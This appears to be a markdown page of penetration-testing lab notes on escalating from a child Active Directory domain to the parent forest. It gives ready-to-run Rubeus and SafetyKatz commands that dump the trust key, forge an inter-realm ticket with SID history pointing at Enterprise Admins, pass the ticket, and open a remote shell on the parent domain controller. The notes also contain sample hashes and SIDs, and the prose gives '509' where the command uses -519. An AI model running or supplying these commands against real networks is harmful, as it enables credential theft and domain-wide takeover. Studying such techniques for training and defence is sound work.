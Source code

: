 **Domain Admin privileges are required for the following**

Ultimate goal is to extract **trust key** from `Child-DC` and forge a inter-realm ticket that has the sIDHistory set to `509` so we can impersonate a `Enterprise Admin` and access resources from the Parent Domain

```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Extract trust key - '`mcorp$` is the trust account
```powershell
SafetyKatz.exe "lsadump::evasive-trust /patch"

SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\mcorp$" "exit"

SafetyKatz.exe "lsadump::lsa /patch"
```

Forge inter-realm TGT
```powershell
.\Loader.exe -path .\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:3332558f9d3865127606e141e90cfdda /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```

| Option              | Description                                                 |
| ------------------- | ----------------------------------------------------------- |
| silver              | Name of the module                                          |
| /rc4                | NTLM hash of the trust key                                  |
| /sid                | SID of the current domain                                   |
| /sids               | SID of the **enterprise admins** group of the parent domain |
| /ldap               | Retrieve PAC information from the current domain DC         |
| /user:Administrator | Username for which the TGT is generated                     |
| /nowrap             | No newlines in the output                                   |

Use forged inter-realm ticket
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
```

Access Parent Domain DC
```powershell
winrs -r:mcorp-dc.MONEYCORP.LOCAL cmd
```